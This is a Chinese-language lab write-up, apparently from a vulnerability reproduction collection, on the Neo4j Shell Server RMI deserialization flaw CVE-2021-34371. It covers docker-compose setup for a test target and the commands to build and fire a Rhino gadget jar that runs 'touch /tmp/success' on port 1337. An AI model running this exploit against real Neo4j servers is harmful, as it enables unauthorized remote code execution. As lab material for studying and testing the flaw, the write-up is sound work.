

Neo4j Shell Server 反序列化漏洞 CVE-2021-34371¶
漏洞描述¶
Neo4j是一个开源图数据库管理系统。
在Neo4j 3.4.18及以前，如果开启了Neo4j Shell接口，攻击者将可以通过RMI协议以未授权的身份调用任意方法，其中setSessionVariable方法存在反序列化漏洞。因为这个漏洞并非RMI反序列化，所以不受到Java版本的影响。
在Neo4j 3.5及之后的版本，Neo4j Shell被Cyber Shell替代。
参考链接：
环境搭建¶
如果你使用Linux或OSX系统，可以执行如下命令启动一个Neo4j 3.4.18：
TARGET_IP=<your-ip> docker-compose up -d
其中，环境变量TARGET_IP需要制定靶场环境的IP地址。
如果你是Windows系统，请直接修改docker-compose.yml，指定TARGET_IP环境变量的值。
服务启动后，访问http://your-ip:7474即可查看到Web管理页面，但我们需要攻击的是其1337端口，这个端口是Neo4j Shell端口，使用RMI协议通信。
漏洞复现¶
使用参考链接中的Java RMI客户端，集成基于Rhino的Gadget，发送RMI请求：
$ mvn install
$ cp target/rhino_gadget-1.0-SNAPSHOT-fatjar.jar ./
$ java -jar rhino_gadget-1.0-SNAPSHOT-fatjar.jar rmi://192.168.174.128:1337 "touch /tmp/success"

可见，touch /tmp/success5已成功执行：
